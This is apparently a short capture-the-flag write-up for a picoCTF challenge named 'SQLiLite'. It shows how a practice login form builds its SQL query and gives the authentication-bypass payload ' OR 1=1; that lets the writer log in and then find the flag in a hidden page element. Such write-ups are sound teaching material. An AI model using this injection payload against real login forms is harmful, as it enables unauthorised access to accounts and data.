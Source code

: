 # SQLiLite

## Description
Can you login to this website?

Try to login [here](http://saturn.picoctf.net:64785/).

## Exploit

We can see that sending a request will create an SQL statement:

```sql
username: aa
password: aa
SQL query: SELECT * FROM users WHERE name='aa' AND password='aa'
```

So we can send the following payload:

```sql
username: admin
password: ' OR 1=1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' OR 1=1;'
```

Sending this request we get a message informing us that the login was successful but the flag is not in plain sight.

Opening the dev tools we can see there's a hidden element with the flag.